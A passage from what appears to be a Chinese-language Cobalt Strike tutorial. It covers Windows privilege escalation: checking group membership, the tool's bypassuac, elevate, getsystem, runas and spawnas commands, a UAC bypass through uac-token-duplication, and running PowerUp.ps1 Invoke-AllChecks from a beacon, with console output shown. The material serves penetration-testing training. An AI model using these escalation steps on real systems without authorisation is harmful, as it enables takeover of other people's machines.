 使用whoami /groups命令可以看到当前用户所在的组以及权限，使用net localgroup administrators可以查看当前在管理员组里的用户名。

2、提权操作 #
当某些操作需要管理员权限，而当前用户权限只有一般用户权限时，就需要提权操作了。

在 CS 中有以下几种提权操作：

bypassuac：将本地中级管理员权限提升至本地高级管理员权限，适用于Win 7 及以上的系统。

elevate：将任意用户的权限提升至系统权限，适用于2018年11月更新之前的 Win 7 和 Win 10 系统。

getsystem：将本地高级管理员权限提升至系统权限。

runas：使用其他用户的凭证来以其他用户身份运行一个命令，该命令不会返回任何输出。

spawnas：使用其他用户的凭证来以其他用户身份派生一个会话，这个命令派生一个临时的进程并将 payload stage 注入进那个进程。

Spawn As #
首先，右击待提权的会话，选择Access --> Spawn As，输入目标系统用户身份信息，其中域信息填写一个“点”代表本地用户，监听器这里选择的 SMB 监听器，之后点击运行就能看到对应的用户上线了。



Bypass UAC #
Bypass UAC 有两个步骤，分别是：

1、利用 UAC 漏洞来获取一个特权文件副本

2、使用 DLL 劫持进行代码执行

首先使用shell whoami /groups查看当前上线主机用户的所属组及 UAC 等级



通过返回信息可以看出，当前用户为管理员权限，UAC 等级为中，根据上一节中关于的介绍，此时可以使用bypassuac进行提权。

首先，右击会话，选择Access --> Elevate，这里选择一个 SMB Beacon，Exploit 选择uac-token-duplication，最后 Launch 即可。



待 Beacon Check in 后，当前用户 UAC 为高权限的会话便会上线了。



3、PowerUp #
PowerUp 所做的事是寻找可能存在弱点的地方，从而帮助提权。

利用 PowerUp 进行提权需要首先导入 ps1 文件powershell-import PowerUp.ps1，再执行powershell Invoke-AllChecks命令，使用 PowerUp 脚本可以快速的帮助我们发现系统弱点，从而实现提权的目的。

其中PowerUp.ps1文件可从这里下载：https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc(opens new window)

PowerUp 的使用

执行以下命令：将 ps1 文件上传到目标主机，并执行所有弱点检查。

powershell-import PowerUp.ps1
powershell invoke-allchecks
详细运行过程：
```
beacon> powershell-import PowerUp.ps1
[*] Tasked beacon to import: PowerUp.ps1
[+] host called home, sent: 275084 bytes

beacon> powershell invoke-allchecks
[*] Tasked beacon to run: invoke-allchecks
[+] host called home, sent: 313 bytes
[+] received output:
[*] Running Invoke-AllChecks
[+] Current user already has local administrative privileges!
[*] Checking for unquoted service paths...

[*] Checking service executable and argument permissions...
[+] received output:
ServiceName                     : AeLookupSvc
Path                            : C:\Windows\system32\svchost.exe -k netsvcs
```